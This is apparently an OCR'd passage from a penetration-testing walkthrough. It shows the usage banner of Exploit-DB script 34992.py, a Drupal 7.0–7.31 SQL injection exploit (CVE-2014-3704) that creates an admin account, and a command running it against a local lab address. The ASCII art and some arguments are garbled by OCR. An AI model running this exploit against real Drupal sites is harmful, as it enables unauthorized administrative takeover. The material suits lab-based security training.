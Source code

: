 ```bash
 | ____ | __ | __ | |. | __ | __ | | _____ | ____ | ____ | __ | _____ | __ | __ |
 |: 1 | | __ | |: | | ___ |
 | :: ... | | ::. |
 `------- '---'

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r

Discovered by:

Stefan Horst
                         (CVE-2014-3704)

                           Written by:

                         Claudio Viviani

                      http://www.homelab.it

                         info@homelab.it
                     homelabit@protonmail.ch

                 https://www.facebook.com/homelabit
                   https://twitter.com/homelabit
                 https://plus.google.com/+HomelabIt1/
       https://www.youtube.com/channel/UCqqmSdMqf_exicCe_DjlBww



Usage: 34992.py -t http [s]: // TARGET_URL -u USER -p PASS


Options:
  -h, --help show this help message and exit
  -t TARGET, --target = TARGET
                        Insert URL: http [s]: //www.victim.com
  -u USERNAME, --username = USERNAME
                        Insert username
  -p PWD, --pwd = PWD Insert password
```
Let's complete the command:


```bash
$ python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.56.112 -u Testing -p of the test test

  ______ __ _______ _______ _____
 | _ \. ----. -. -. -----. --- .- | | | _ || _ | _ |
 |. | \ | _ | | | _ | _ | | | ___ | _ | ___ | |. | |
 |. | | __ | | _____ | __ | ___._ | __ | / | ___ (__ `- |. |
 |: 1 / | __ | | | |: 1 | |: |
 | :: ... / | | | :: ... | | ::. |
 `------ '` ---' `------- '` ---'
  _______ __ ___ __ __ __
 | _ .----- | | | .----- | __. ----- .---- | | _ | __. ----- .-----.
 | 1 ___ | _ | | |. | | | -__ | __ | _ | | _ | |
 | ____ | __ | __ | |. | __ | __ | | _____ | ____ | ____ | __ | _____ | __ | __ |
 |: 1 | | __ | |: | | ___ |
 | :: ... | | ::. |
 `------- '---'

                                 Drup4l => 7.0 <= 7.31 Sql-1nj3ct10n
                                              Admin 4cc0unt cr3at0r
```